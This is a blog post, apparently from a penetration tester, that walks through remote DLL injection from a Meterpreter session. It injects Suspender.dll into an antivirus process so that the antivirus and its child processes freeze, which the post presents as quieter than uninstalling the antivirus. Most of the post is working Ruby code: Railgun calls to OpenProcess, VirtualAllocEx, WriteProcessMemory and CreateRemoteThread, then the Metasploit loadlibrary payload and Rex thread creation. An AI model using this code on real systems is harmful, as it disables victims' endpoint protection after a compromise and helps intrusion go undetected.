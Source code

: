 = Remote DLL Injection with Meterpreter
:hp-tags: dllinjection, metasploit, meterpreter, railgun

Recently Didier Stevens wrote 'Suspender.dll' which is a DLL that will suspend a process and all of it's child processes after a delay. 60 seconds is it's default but you can rename the DLL to add a number (as such 'Suspender10.dll' for 10 seconds) to make the delay whatever you wish. You can find the blog post and download here: [http://blog.didierstevens.com/2011/04/27/suspender-dll/](http://blog.didierstevens.com/2011/04/27/suspender-dll/)

Jonathan Cran and I had the same idea, as I'm sure many others did as well. This might work against AntiVirus setups that protect themselves from being killed or their services stopped.

I still stand by my original claim that just removing it is easier ([Blog Post: Silently Uninstall SEP](/blog/2010/11/16/silently-uninstall-sep)). However that might be something the user notices (A little shield disappearing).

Well, I didn't know how to do this with meterpreter so a bit of google fu landed me on: [http://www.codeproject.com/KB/threads/winspy.aspx](http://www.codeproject.com/KB/threads/winspy.aspx) which has 3 different ways to attack the 2nd of which used a DLL (score!)

Using IRB within a meterpreter shell I started using Railgun (because once you know something sometimes its easy not too look for other solutions)

I start off setting up some variables after I've uploaded Suspender.dll:

```ruby
pid = 1436
sizeofsuspend = 52376
pathtosuspend = "C:\Docume~1\Administrator\Desktop\Suspender10.dll"
```

Next up we need to open a handle on the target process:

```ruby
handle = client.railgun.kernel32.OpenProcess(PROCESS_ALL_ACCESS,false,pid)["return"]
```

With the handle we allocate some memory in the remote process for our DLL to live in:

```ruby
allocatedmem = client.railgun.kernel32.VirtualAllocEx(handle,nil,sizeofsuspend,MEM_COMMIT,PAGE_READWRITE)["return"]
```

Writing that DLL to memory isn't much harder: (_**this and the previous step is the wrong way to do things as we'll see later**_)

```ruby
client.railgun.kernel32.WriteProcessMemory(handle,allocatedmem,pathtosuspend,sizeofsuspend,nil)
```

Here is the hard part. We have to somehow figure out the address LoadLibraryA in the remote processes memory space, accounting for ASLR then pass it the location in memory where our DLL is hiding. Yah, I couldn't figure this one out, here is the best I did:

```ruby
client.railgun.kernel32.CreateRemoteThread(handle,nil,0,allocatedmem,pathtosuspend,0,nil)
```

Then I got a friendly reminder by HD that most of this was built into meterpreter already so all that railgun nastness boils down to someting a lot simpler. Set the variables again:

```ruby
pid = 1436
pathtosuspend = "C:\Docume~1\Administrator\Desktop\Suspender10.dll"
```

But this time we are going to use the loadlibrary payload that just got added to Metasploit Framework in [r12765](https://dev.metasploit.com/redmine/projects/framework/repository/revisions/12765). We generate the payload with it pointing at our Suspender DLL:

```ruby     
pay = client.framework.payloads.create("windows/loadlibrary")
pay.datastore['DLL'] = pathtosuspend
pay.datastore['EXITFUNC'] = 'thread'
raw = pay.generate
```

Open the process, this time with Rex:

```ruby
targetprocess = client.sys.process.open(pid, PROCESS_ALL_ACCESS)
```

Allocate the memory in the remote process write the payload (not our DLL) into that space:

```ruby
mem = targetprocess.memory.allocate(raw.length + (raw.length % 1024))
targetprocess.memory.write(mem, raw)
```

And finally create the remote thread.. MUCH easier (The power of Rex even over Railgun)

```ruby
targetprocess.thread.create(mem, 0)
```

And 10 seconds later our AV and all it's children processes stop. Suspended by Didier's Suspender.DLL. Thanks to HD for the slap in the head that I was doing things the wrong way and the 1 AM update to the framework that made this possible.
